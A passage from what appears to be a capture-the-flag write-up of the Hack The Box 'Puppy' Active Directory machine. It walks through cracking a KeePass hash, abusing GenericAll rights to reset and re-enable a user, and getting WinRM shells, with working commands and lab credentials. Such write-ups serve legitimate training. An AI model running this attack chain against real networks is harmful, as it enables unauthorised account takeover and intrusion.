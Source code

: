 	```python
	smbclient -U 'levi.james' //10.10.11.70/DEV       
	```

	<img width="614" height="285" alt="image" src="https://github.com/user-attachments/assets/6a80677f-f0ee-487e-b0a9-87a5b2848b39" />

- Initially, `keepass2john` failed due to version incompatibility, but after downloading the latest version from GitHub, I extracted the hash and cracked it using `rockyou.txt`

	```python
	john --wordlist=/usr/share/wordlists/rockyou.txt /home/rufo/content/hashKeepass 
	```
	
	<img width="904" height="287" alt="image" src="https://github.com/user-attachments/assets/74f0b8ab-36f1-4172-b406-209eae6fe6bb" />

- The database contained several credentials. After testing them, I found valid credentials for `ant.edwards`

	<img width="862" height="224" alt="image" src="https://github.com/user-attachments/assets/1546e3fd-5bd2-4826-8a1f-41c934be5f18" />

## Lateral Movement

- According to BloodHound, `ant.edwards` (a member of `Senior Devs`) had `GenericAll` rights over `adam.silver`. This allowed a password reset:

	```python
	net rpc password "adam.silver" -U "PUPPY.HTTB"/"ant.edwards"%'Antman2025!' -S 10.10.11.70
	```

- Despite the reset, the account was still disabled. Using `bloodyAD`, I re-enabled the account:

	```python
	bloodyAD --host dc.PUPPY.HTB -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
	evil-winrm -i 10.10.11.70 -u  "adam.silver" -p 'PePe1234.-!asdf' 
	```

  <img width="560" height="251" alt="image" src="https://github.com/user-attachments/assets/21af54b8-2c74-489c-8596-fa771527071f" />

- Once logged in, I obtained the user flag.

## Privilege Escalation

- Exploring the system, I found a folder `C:\Backups` containing a zip archive: `site-backup-2024-12-30.zip`. It included plaintext credentials for `steph.cooper`:

	<img width="577" height="649" alt="image" src="https://github.com/user-attachments/assets/53b25ce6-e979-4535-a310-82cb01ebe975" />

- After verifying the credentials:

	```python
	netexec smb 10.10.11.70 -u steph.cooper -p ChefSteph2025!
	netexec winrm 10.10.11.70 -u steph.cooper -p ChefSteph2025!
	evil-winrm -i 10.10.11.70 -u steph.cooper -p ChefSteph2025!
	```

